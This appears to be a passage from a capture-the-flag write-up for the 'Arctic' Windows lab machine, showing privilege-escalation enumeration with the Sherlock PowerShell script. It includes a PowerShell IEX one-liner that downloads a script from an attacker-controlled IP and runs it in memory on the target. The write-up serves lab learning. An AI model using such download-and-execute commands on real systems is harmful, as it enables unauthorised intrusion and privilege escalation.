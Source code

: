 Now we check for systeminfo to check for any `hotfixes`

![](/Windows/Windows-Easy/Arctic/Screenshots/systeminfo.png)

Now we search and find that their is script that checks for vulnerablitities of missing software patches for local privilege escalation vulnerabilities. [sherlork](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) now we save the script and be able to execute if so that we can run.

from the script just copy the function find Allvulns and put at the end of the script them from the session run

```sh
powershell "IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/sherlork.ps1')"
```

![](/Windows/Windows-Easy/Arctic/Screenshots/sherlork.png)

